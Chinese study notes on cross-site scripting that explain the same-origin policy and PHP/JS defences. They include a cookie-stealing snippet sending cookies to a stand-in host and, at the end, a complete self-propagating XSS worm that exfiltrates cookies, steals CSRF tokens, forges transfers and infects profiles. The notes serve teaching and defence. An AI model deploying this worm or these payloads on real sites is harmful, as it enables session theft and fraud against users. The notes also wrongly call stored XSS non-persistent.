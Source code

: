 # XSS 攻击

### XSS 原理
1. XSS介绍：XSS代表跨站脚本(Cross-Site scripting),是Web应用程序中最广泛最具破坏性的安全漏洞之一.是发生在目标用户的浏览器上,将导致客户端执行攻击者注入的代码.
2. XSS 分类
   1. 反射型XSS(非持久化).一般由攻击者写好链接，需要欺骗用户点击才能触发，一般出现在搜索界面。可以使用img标签自动触发.
   2. 存储型XSS(非持久化).一般存储在服务器中,比如个人信息和发表文章.每当有用户访问该页面都会触发代码执行.
3. 客户端执行攻击者注入的代码原因
   1. 网站接收用户输入,并使用该输入构造页面.(没有考虑用户输入脚本情况,而JS可以控制页面的所有元素比如cookie和表单)
4. XSS 的危害
   1. 通过JS窃取Cookie  
        `new Image().src="www.example.com/steal.php?cookie="+document.getCookie()`
   2. 使用JavaScript构建表单,模拟提交.

### Ajax
1. Ajax是Asynchronous JavaScript and XML的简称,不是一门语言,使用JS实现.具有异步执行和局部更新的显著优点.
2. Ajax的使用方法
   1. 通过XHR对象（XmlHttpRequest）
   2. 通过JQuery封装（$.ajax()）

### 同源策略
1. 同源策略（SOP），使用网站的源信息识别每个网站，为每个源创建上下文，存储相关资源。
2. 目的：保护cookie，防止JS访问iframe中的内容，防止Ajax跨域请求。
3. 可以通过在被请求的Http Header中加入相关字段来作为安全和应用的折中。

### XSS 防御
1. XSS存在的三个条件
   1. 网站应用程序必须接受用户的输入信息
   2. 用户的输入信息会被网站用来创建动态内容(转义)
   3. 用户的输入验证不充分(过滤)
2. Httponly cookie
3. PHP直接输出html的，可以采用以下的方法进行过滤：
    1. `htmlspecialchars`函数,把`<>`转换成html实体.
    2. `htmlentities`函数,把字符转成html实体.
    3. `HTMLPurifier.auto.php`插件,过滤
    4. `RemoveXss`函数,过滤跨站脚本
4. PHP输出到JS代码中，或者开发Json API的，则需要前端在JS中进行过滤：
    1. 尽量使用innerText(IE)和textContent(Firefox),也就是jQuery的text()来输出文本内容
    2. 必须要用innerHTML等函数，则需要做类似php的htmlspecialchars的过滤
5. 其它的通用的补充性防御手段
    1. 在输出html时，加上Content Security Policy的Http Header
    （作用：可以防止页面被XSS攻击时，嵌入第三方的脚本文件等）
    （缺陷：IE或低版本的浏览器可能不支持）
    1. 在设置Cookie时，加上HttpOnly参数
    （作用：可以防止页面被XSS攻击时，Cookie信息被盗取，可兼容至IE6）
    （缺陷：网站本身的JS代码也无法操作Cookie，而且作用有限，只能保证Cookie的安全）
    1. 在开发API时，检验请求的Referer参数
    （作用：可以在一定程度上防止CSRF攻击）
    （缺陷：IE或低版本的浏览器中，Referer参数可以被伪造）

### XSS 蠕虫举例
1. 在用户的输入框中构造代码如下
    ```html
    <span id="zoobars" class="
    var s=document.createElement(\'script\');
    s.src=\'http://localhost:8082/xss.js\';
    document.body.appendChild(s);">
    ```
2. 在xss.js中
    ```javascript
    //偷cookie
    var img = document.createElement("img");
    img.src = "http://localhost:8082/xss.php?cookie=" + escape(document.cookie);
    document.body.appendChild(img);
    //窃取csrf_token
    var a = new XMLHttpRequest();
    var temp;
    a.onreadystatechange = function () {
        if (a.readyState == 4) {
            var context = (a.responseText);
            temp = context.substr(context.indexOf("csrf_token") + 18, 32);
            alert(temp);
        }
    };
    a.open("get", "transfer.php", false);
    a.send()
    //模拟提交
    var xhr1 = new XMLHttpRequest();
    xhr1.open("POST", "transfer.php", true);
    xhr1.setRequestHeader("content-type", "application/x-www-form-urlencoded");
    w = "zoobars=1&recipient=lzw&submission=Send&csrf_token=" + temp;
    xhr1.onreadystatechange = function () {
        if (xhr1.readyState == 4) {
            alert(xhr1.responseText);
        }
    };
    xhr1.send(w);
    //修改访问用户简介,使蠕虫扩散
    var xhr2 = new XMLHttpRequest();
    xhr2.open("POST", "index.php", true);
    xhr2.setRequestHeader("content-type", "application/x-www-form-urlencoded");
    w = "profile_update=<span id=\\\"zoobars\\\" class=\\\"var s=document.createElement(\\\'script\\\');s.src=\\\'http://localhost:8082/xss.js\\\';document.body.appendChild(s);\\\">&profile_submit=Save";
    xhr2.send(w);
    ```